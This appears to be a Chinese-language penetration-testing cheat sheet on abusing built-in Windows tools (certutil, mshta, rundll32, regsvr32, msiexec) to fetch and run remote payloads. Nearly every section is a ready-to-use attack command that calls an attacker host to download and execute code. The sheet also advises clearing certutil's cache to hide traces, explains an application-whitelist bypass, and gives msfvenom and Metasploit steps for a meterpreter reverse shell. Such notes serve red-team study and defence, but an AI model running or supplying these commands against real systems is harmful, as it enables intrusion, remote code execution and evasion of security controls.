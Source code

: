 用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

缓存目录为: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`
```
# 下载
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php

# 删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

**ipc$**
```
# 建立远程 IPC 连接
net use \\192.168.28.128\ipc$ /user:administrator "abc123!"

# 复制远程文件到本地主机
copy \\192.168.28.128\c$\2.txt D:\test
```

**MSBuild**
- [Use MSBuild To Do More](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

**Mshta.exe**

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

目标端
```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

**Rundll32.exe**

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

```cmd
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

**Regsvr32.exe**

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32 使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载 / 执行）都可以在同一端口上发生。“PSH(Binary)” 将向磁盘写入文件，允许下载 / 执行自定义二进制文件。

```bash
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

**Msiexec.exe**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

攻击端
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```
